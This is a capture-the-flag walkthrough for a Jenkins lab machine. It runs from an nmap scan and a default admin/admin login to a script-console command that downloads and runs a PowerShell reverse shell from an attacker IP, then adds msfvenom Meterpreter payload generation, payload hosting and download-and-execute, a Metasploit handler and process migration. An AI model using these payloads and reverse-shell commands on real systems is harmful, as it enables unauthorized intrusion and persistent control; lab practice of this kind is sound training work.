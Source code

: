 
# 🧰 Jenkins Machine - Exploitation Walkthrough

## 🔍 Step 1: Initial Nmap Scan

Run an Nmap scan to identify open ports:
```bash
nmap -sC -sV -T4 -p- <target-ip>
```

**Discovered open ports:**
- `80/tcp` – HTTP
- `8080/tcp` – Jenkins
- `3389/tcp` – RDP

---

## 🌐 Step 2: Jenkins Login

Access Jenkins at:  
`http://<target-ip>:8080`

Try default credentials:  
**Username:** `admin`  
**Password:** `admin`

> Login was successful.

---

## 💣 Step 3: Gain Reverse Shell via Jenkins Script Console

Use Jenkins’s **Script Console**:  
`http://<target-ip>:8080/script`

Execute the following **PowerShell reverse shell payload**:
```groovy
"cmd.exe /c powershell -nop -c \"iex (New-Object Net.WebClient).DownloadString('http://10.21.183.238/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.21.183.238 -Port 4444\"".execute()
```

> **Note:** Ensure a listener is running on your attack machine:
```bash
nc -lvnp 4444
```

---

## 🧬 Step 4: Generate Meterpreter Shell

Create a Meterpreter reverse shell payload:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.21.183.238 LPORT=4444 -f exe -o shell.exe
```

---

## 📦 Step 5: Host the Payload

Start an HTTP server to host the `shell.exe`:
```bash
python3 -m http.server 8000
```

---

## 📥 Step 6: Download & Execute Payload from Target

On the target (via existing shell or Jenkins), run:
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.21.183.238:8000/shell.exe','shell.exe')"
Start-Process shell.exe
```

---

## 🧠 Step 7: Receive Meterpreter Shell

Start Metasploit and configure the handler:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.21.183.238
set LPORT 4444
exploit
```

> You should receive a Meterpreter session.

---

## 📊 Step 8: Migrate to Stable Process

List running processes:
```bash
ps
```

Find a stable process like `services.exe` and migrate:
```bash
migrate <PID>
```

Example:
```bash
migrate 580
```

---

## 🎯 Final Step: Capture the Flag

In Meterpreter shell:
```bash
shell
cd \
dir /s flag.txt
```

Check common locations:
- `C:\Users\Administrator\Desktop\`
- `C:\Users\<username>\Desktop\`

Look for files named `flag.txt`, `root.txt`, or `proof.txt`.

---
